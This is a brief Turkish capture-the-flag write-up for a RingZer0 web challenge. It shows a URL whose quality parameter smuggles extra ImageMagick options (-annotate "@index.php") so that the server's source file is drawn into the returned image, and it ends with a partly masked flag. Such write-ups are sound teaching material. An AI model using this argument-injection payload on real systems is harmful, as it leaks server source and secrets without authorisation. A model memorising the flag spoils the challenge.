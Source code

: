 # Çözüm


imagemagick kullanılmış, komutu bitirip yeni komut başlatmak imkansız fakat paremetre eklenebilir.

http://challenges.ringzer0team.com:10327/getimage.php?id=1&quality=100 -pointsize 10 -fill black -annotate +0 "@index.php"

FLAG-105b70214c76502491682945xxxxxxxxxxx
